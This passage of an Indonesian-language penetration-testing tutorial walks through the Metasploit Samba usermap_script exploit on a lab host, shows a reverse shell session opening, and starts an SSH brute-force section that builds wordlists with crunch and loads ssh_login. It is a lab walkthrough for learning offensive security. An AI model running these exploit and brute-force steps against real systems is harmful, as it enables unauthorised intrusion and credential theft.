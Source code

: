 Pada bagian `LHOST  192.168.1.21`, ip address tersebut adalah ip address Kali Linux kita. Kemudian kita tinggal menjalankan `run` atau `exploit`

```
msf6 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 192.168.1.21:4444 
[*] Command shell session 1 opened (192.168.1.21:4444 -> 192.168.1.22:57480) at 2024-12-15 21:58:25 +0800
```

Banggg......!!! berhasil. Jika cara di atas tidak berhasil untuk mencari versi eksploit atau exploit itu sendiri, kita bisa menggunakan jalan terakhir dengan menggunakan google.

#### Brutoforce attack SSH

Dalam dunia nyata, yang perlu disiapkan sebelum adalah brutoforce adalah wordlist. Di Kali Linux tool yang dapat digunakan untuk membuat wordlist adalah `crunch`.

Membuat wordlist minimal 6 karakter maksimal 8 karakter dan disimpan dalam `user-list.txt` file.

```
crunch 6 8 -o user-list.txt
```
Contoh menambahkan spesifik karakter yang akan dibuat dalam wordlist

```
crunch 8 8 msifadn -o user-list.txt
```

Module yang akan kita gunakan untuk bruto force ssh adalah `ssh_login.rb`yang  berada di `/usr/share/metasploit-framework/modules/auxiliary/scanner/ssh`.

Jalankan metasploit sekaligus memasukan option konfigurasi:

```
$ msfconsole 

Metasploit tip: The use command supports fuzzy searching to try and 
select the intended module, e.g. use kerberos/get_ticket or use 
kerberos forge silver ticket
                                                  

                 _---------.
             .' #######   ;."
  .---,.    ;@             @@`;   .---,..
." @@@@@'.,'@@            @@@@@',.'@@@@ ".
'-.@@@@@@@@@@@@@          @@@@@@@@@@@@@ @;
   `.@@@@@@@@@@@@        @@@@@@@@@@@@@@ .'
     "--'.@@@  -.@        @ ,'-   .'--"
          ".@' ; @       @ `.  ;'
            |@@@@ @@@     @    .                                                             
             ' @@@ @@   @@    ,                                                              
              `.@@@@    @@   .                                                               
                ',@@     @   ;           _____________                                       
                 (   3 C    )     /|___ / Metasploit! \                                      
                 ;@'. __*__,."    \|--- \_____________/                                      
                  '(.,...."/                                                                 


       =[ metasploit v6.4.38-dev                          ]
+ -- --=[ 2467 exploits - 1273 auxiliary - 431 post       ]
+ -- --=[ 1478 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 >
msf6 > use auxiliary/scanner/ssh/ssh_login
```